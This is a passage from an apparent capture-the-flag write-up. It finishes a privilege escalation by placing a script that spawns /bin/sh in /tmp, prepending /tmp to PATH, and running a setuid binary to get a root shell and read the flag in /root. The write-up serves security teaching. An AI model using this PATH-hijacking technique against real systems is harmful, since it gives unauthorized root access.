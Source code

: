 ```
#!/bin/sh

/bin/sh
```

That's all! The next is to execute the setuid binary `vuln` the following way:
`binexgod $ PATH=/tmp:$PATH ./vuln`

This gives us the following output:

![](assets/img/bh_27.png)

We can finally get the last flag that exists in `/root/`:

![](assets/img/bh_28.png)

And that's our flag!